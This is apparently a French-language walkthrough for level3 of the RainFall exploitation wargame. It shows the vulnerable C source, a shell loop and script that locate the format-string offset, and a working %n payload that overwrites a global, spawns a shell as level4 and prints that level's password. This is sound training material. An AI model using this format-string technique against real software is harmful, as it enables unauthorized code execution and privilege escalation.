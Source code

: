 
# level3 :

pass : `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

```bash
level0@RainFall:~$ su level3
Password: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Source :

```cpp=
#include <stdio.h>
#include <stdint.h>

int		v() {
	char str[520];  // 0x208
	fgets(str, 512, stdin);  // 0x200
	printf(str);
	void	*m = 0x804988c;  // end of bss segment 0x08049890
	if (m == 64) {  // 0x40
		fwrite("Wait what?!\n", 1, 12, stdout);
		system("/bin/sh");
	}
	return (m);
}

int		main(int ac, char **av, char **envp) {
	return(v());
}
```

## Recherche :

On doit changer la valeur la valeure de la mémoire à l'addresse 0x804988c pour pouvoir réaliser notre exploit.

Ici `printf` est utiliser, est va pouvoir l'utiliser pour faire ce que l'on veut.
`Printf` utlise des format modifier `%` qui seront directement interpreter, n'étant pas protégé sur le binaire du level3.
On a donc :
    - `%s` pour afficher une chaine de caractère
    - `%x` pour afficher 4 octets en hexadécimal
    - `%n` pour l'écriture en mémoire

```sh
level3@RainFall:~$ ./level3
%x %x
200 b7fd1ac0
```

Pour déterminer l'offset où la chaine `str` sera mise en mémoire, on peut lancer cette commande :
`for((i=0; i<10; i++));do echo "Index $i" && python -c "print 'AAAA'+' %x'*$i" | ./level3; done`

qui nous donnera ce résultat :
```=
Index 0
AAAA
Index 1
AAAA 200
Index 2
AAAA 200 b7fd1ac0
Index 3
AAAA 200 b7fd1ac0 b7ff37d0
Index 4
AAAA 200 b7fd1ac0 b7ff37d0 41414141
Index 5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
Index 6
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
Index 7
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
Index 8
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520
Index 9
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825
```

ou avec un script shell :
```sh=
kali@kali:~/rainfall$ cat ./script.sh
#!/bin/bash
for ((i=0;  i < 200; i++))
do
        echo "Index $i" && (python -c "print 'AAAA%$i\$x'" ) | $1 | grep -A5 -B5 4141 > temp.pap

        if test -s "temp.pap"; then
                        cat temp.pap
                        break
        fi
done
rm temp.pap
```
Qu'on peut executer :
```
kali@kali:~/rainfall$ ./script.sh ./level3
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

On peut voir qu'on a un offset à 4.

On peut donc simplifier par :
```
level3@RainFall:~$ echo "AAAA%4\$x" | ./level3
AAAA41414141
```
ou
```
level3@RainFall:~$ echo "ABCD%4\$x" | ./level3
ABCD44434241
```

Où l'on retrouve bien ABCD en little endian. Donc si on remplace ABCD par l'addresse de `m` on pourra changer sa valeur avec l'option `%n`.

```
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$x"' | ./level3 ; echo " ->$?"
�804988c ->0
```

`%n` écrit en mémoire avec la taille de la chaine de caractère qui lui est donnée.

Si on remplace x par n, au lieu d'afficher, on va donc écrire à l'adresse de mémoire donnée:
```
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$n"' | ./level3 ; echo " ->$?"
� ->4
```

On voit que le code de retour n'est plus 0 mais 4, car on a une chaîne d'une longeur de 4.

On a donc tout ce qu'il nous faut pour écrire le script suivant :
- écrire à l'addresse 0x0804988c
- l'offset pour y écrire est 4
- la valeur que l'on veut mettre est 0x40

`(perl -e 'print "\x8c\x98\x04\x08"."\x90"x(0x40-4)."%4\$n"'; cat;) | ./level3`

## Exploit :

```
level3@RainFall:~$ (perl -e 'print "\x8c\x98\x04\x08"."\x90"x(0x40-4)."%4\$n"'; cat;) | ./level3

�������������������������������������������������������������
Wait what?!
whoami
level4
cd ../level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
